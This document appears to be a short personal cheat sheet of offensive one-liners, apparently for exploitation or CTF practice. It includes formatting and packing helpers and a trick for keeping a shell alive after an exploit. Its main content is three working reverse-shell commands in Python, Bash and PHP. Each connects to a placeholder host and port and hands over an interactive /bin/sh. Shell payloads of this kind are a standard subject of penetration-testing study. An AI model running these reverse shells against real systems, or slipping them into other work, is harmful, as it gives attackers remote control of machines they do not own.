 
# Useful Scripts & Commands 🧰

## Commands:

### Python 

- Convert numbers into a string in hex format (0x prefix with zero padding): `"{:#04x}.format(n)"`

- Print an address in little endian:
      
        `python -c "import struct; print(struct.pack('<I',0xdeadbeef))"`


- Oneline python revshell:


        `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
        s.connect(("{HOST_IP}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

### Bash

- Maintain shell after running an exploiting: `(./exploit | cat ) | ./vuln`
- Simple Bash revshell: 
    
        `bash -i >& /dev/tcp/{HOST_IP}/{PORT} 0>&1`

### PHP

- Oneline revshell: 

        `php -r '$sock=fsockopen("{HOST_IP}",80);exec("/bin/sh -i <&3 >&3 2>&3");'`

